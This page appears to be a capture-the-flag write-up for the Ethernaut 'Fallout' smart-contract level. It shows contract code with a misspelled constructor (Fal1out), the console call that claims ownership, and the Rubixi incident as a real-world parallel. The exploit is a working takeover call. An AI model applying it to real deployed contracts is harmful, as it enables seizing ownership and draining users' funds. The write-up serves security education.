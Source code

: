```
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

1. A mistake in this contract is that its constructor is called Fal1out which is a typo from the name of the contract Fallout():
   /_ constructor _/
   function Fal1out() public payable {
   owner = msg.sender;
   allocations[owner] = msg.value;
   }

So we can just call this function and take it over!
await contract.Fal1out.sendTransaction({from:"YOUR ADDRESS", to:"YOUR INSTANCE ADDRESS", value: "10"}) - any value in wei

Check:

before:

```
await contract.owner()
```

will show "0x0000000000000000000000000000000000000000"

after:

```
await contract.owner()
```

will show "YOUR ADDRESS"

Real examples of such simple human errors
This seemingly trivial level illustrates how simple errors like typos, have historically resulted in serious problems:
The Rubixi Bug
In the Rubixi incidence, the developer changed the contract’s name from Dynamic Pyramid to Rubixi. However, he forgot to rename his constructor function from DynamicPyramid() to Rubixi().
Adversaries were then able to call the now publicly invokable DynamicPyramid() function to gain control of the contract and transfer its ethers out.
